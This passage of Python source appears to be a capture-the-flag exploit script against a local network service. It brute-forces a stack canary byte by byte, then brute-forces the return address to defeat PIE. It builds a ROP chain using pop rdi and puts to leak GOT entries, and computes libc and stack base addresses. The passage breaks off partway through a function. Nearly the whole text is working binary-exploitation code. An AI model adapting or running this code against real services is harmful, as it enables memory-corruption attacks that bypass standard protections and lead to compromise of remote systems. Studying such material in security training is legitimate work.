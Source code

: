 ```python
libc_pop_rdi_ret = 0x23b6a  # libc_rop.find_gadget(['pop rdi']).address
libc_pop_rsi_ret = 0x2601f  # libc_rop.find_gadget(['pop rsi']).address


def leak_canary(padding):
    current_buf = b'A' * padding
    while len(current_buf) < padding + 8:
        for num in range(256):
            with remote('0.0.0.0', 1337) as p:
                candidate = current_buf + num.to_bytes(1, 'little')
                p.send(candidate)
                p.recvuntil(b'Leaving!')
                #time.sleep(0.1)
                output = p.recv()
                if b'*** stack smashing detected ***' not in output and b'Goodbye!' in output:
                    print(f'NEW CANARY BYTE FOUND:{num}')
                    current_buf = candidate
                    break
    return current_buf[-8:]

def leak_pie(padding, canary):
    # TODO - The call site of __stack_chk_fail is located at offset 0x1b27
    current_buf = b'\x41' * padding + canary + b'\x42' * 8
    current_buf += b'\x27'
    iter = 0
    while len(current_buf) < padding + 16 + 8:
        iter += 1
        for num in range(256):
            if num & 0xf != 0x0b and iter == 1:  # specialization for first searched byte, as it is half-known
                continue
            with remote('0.0.0.0', 1337) as p:
                candidate = current_buf + num.to_bytes(1, 'little')
                p.send(candidate)
                p.recvuntil(b'Leaving!')
                output = p.recv()
                print(f'OUTPUT:{output}')
                if b'*** stack smashing detected ***' in output and b'Goodbye!' not in output:
                    print(f'NEW RA BYTE FOUND:{num}')
                    current_buf = candidate
                    break
    return current_buf[-8:]

def read_addr(padding, canary, pie_base, addr):
    buf = b'\x41' * padding + canary + b'\x42' * 8
    buf += struct.pack('<Q', pie_base + pop_rdi_ret)  
    buf += struct.pack('<Q', addr)
    buf += struct.pack('<Q', pie_base + elf_puts)
    with remote('0.0.0.0', 1337) as p:
        p.send(buf)
        time.sleep(0.2)
        p.recvuntil(b'Leaving!\n')
        result = p.recv()[:-1]
    return result

def leak_libc(padding, canary, pie_base):
    puts_libc_leak = int.from_bytes(read_addr(padding, canary, pie_base, elf_puts_got + pie_base), 'little')
    return puts_libc_leak - libc_puts

def leak_stack(padding, canary, pie_base, libc_base):
    environ = int.from_bytes(read_addr(padding, canary, pie_base, libc_base + libc_environ), 'little')
```